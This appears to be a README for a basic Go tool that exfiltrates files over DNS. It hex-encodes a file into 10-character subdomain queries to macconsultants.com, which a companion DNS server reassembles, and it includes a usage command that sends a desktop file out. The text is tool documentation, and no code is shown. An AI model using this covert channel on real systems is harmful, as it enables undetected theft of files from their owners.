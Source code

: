 This is a very basic file exfiltration tool that uses DNS A records to exfiltrate files.

How it Works:
1. build the server and start it (sudo ./<binname>)
2. The dns server will then listen for incoming DNS connections
3. The dns server will resolve any request it gets to 10.10.10.10
4. build and run the client and feed it a single parameter which is the path to the file you want to exfil. Example:

./go-dnsclient ~/Desktop/importantfile.txt

5. the client will then read the contents of the file, hex encode it, and send it in 10 character chunks as A record requests. The format of each request is:
[10 hex encoded characters].macconsultants.com
6. Once done the server will take all of the hex encoded data, combine, and unhexlify it to a file as ASCII in the same directory. The output file is called outfile.
7. The server will not indicate when done but the client does. Once the client says it is done, you can kill the server and view the contents of outfile.
8. You will need to rename the outfile if you want to send multiple files, since the server will overwrite it


